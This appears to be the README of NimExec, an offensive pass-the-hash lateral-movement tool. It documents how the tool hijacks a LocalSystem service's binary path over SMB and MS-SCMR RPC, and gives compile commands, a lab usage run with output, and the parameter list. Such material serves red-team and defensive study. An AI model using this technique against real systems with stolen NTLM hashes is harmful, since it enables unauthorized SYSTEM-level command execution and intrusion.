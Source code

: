 # NimExec
Basically, NimExec is a fileless remote command execution tool that uses The Service Control Manager Remote Protocol (MS-SCMR). It changes the binary path of a random or given service run by LocalSystem to execute the given command on the target and restores it later via hand-crafted RPC packets instead of WinAPI calls. It sends these packages over SMB2 and the svcctl named pipe.

NimExec needs an NTLM hash to authenticate to the target machine and then completes this authentication process with the NTLM Authentication method over hand-crafted packages.

Since all required network packages are manually crafted and no operating system-specific functions are used, NimExec can be used in different operating systems by using Nim's cross-compilability support.

This project was inspired by [Julio's SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec) tool. You can think that NimExec is Cross Compilable and built-in Pass the Hash supported version of SharpNoPSExec. Also, I learned the required network packet structures from [Kevin Robertson's Invoke-SMBExec Script](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1).


# Compilation
```
nim c -d:release --gc:markAndSweep -o:NimExec.exe Main.nim
```

The above command uses a different Garbage Collector because the default garbage collector in Nim is throwing some SIGSEGV errors during the service searching process.

Also, you can install the required Nim modules via Nimble with the following command:

```
nimble install ptr_math nimcrypto hostname
```
# Usage
```
test@ubuntu:~/Desktop/NimExec$ ./NimExec -u testuser -d TESTLABS -h 123abcbde966780cef8d9ec24523acac -t 10.200.2.2 -c 'cmd.exe /c "echo test > C:\Users\Public\test.txt"' -v
 
                                                                                             _..._     
                                                                                          .-'_..._''.  
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\ 
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'            
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '              
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |              
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |              
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '              
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          . 
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/ 
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /  
|  |   |  |                                        .'   /    `.   `.                               `   
'--'   '--'                                       '----'       '----'                                  

                                            @R0h1rr1m          


[+] Connected to 10.200.2.2:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Bound to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 265
[+] Selected service is LxpSvc
[+] Service: LxpSvc is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
```

It's tested against Windows 10&11, Windows Server 16&19&22 from Ubuntu 20.04 and Windows 10 machines.
# Command Line Parameters

``` 
    -v | --verbose                          Enable more verbose output.
    -u | --username <Username>              Username for NTLM Authentication.*
    -h | --hash <NTLM Hash>                 NTLM password hash for NTLM Authentication.**
    -p | --password <Password>              Plaintext password.**
    -t | --target <Target>                  Lateral movement target.*
    -c | --command <Command>                Command to execute.*
    -d | --domain <Domain>                  Domain name for NTLM Authentication.
    -s | --service <Service Name>           Name of the service instead of a random one.
    --help                                  Show the help message.

```

# References

- https://github.com/juliourena/SharpNoPSExec
- https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1
- https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-SCMR/%5bMS-SCMR%5d.pdf
- https://github.com/jborean93/pypsexec/tree/master
- https://www.x86matthew.com/view_post?id=create_svc_rpc
